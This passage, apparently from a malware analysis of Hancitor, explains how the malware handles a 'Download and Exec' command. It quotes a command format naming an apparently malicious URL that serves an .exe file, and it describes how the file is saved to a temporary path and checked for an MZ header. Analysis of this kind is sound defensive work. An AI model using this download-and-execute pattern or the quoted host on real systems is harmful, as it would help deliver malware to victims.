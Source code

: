 ### Download and Exec

If a command matching the following format

```
{r:http://trimsalonmarleen.nl/templates/system/inst2.exe}
```
is received, the malware will store the downloaded file in a temporary location (which is performed with GetTempPathA and GetTempFileNameA). 

<figure>
<img src="/images/hancitor13.jpg">
</figure>

The file is then downloaded and validated to make sure the first 2 bytes are 0x4d & 0x5a, (MZ header) ensuring it’s an executable file.

<figure>
<img src="/images/hancitor14.jpg">
</figure>

The file is then written to disk 
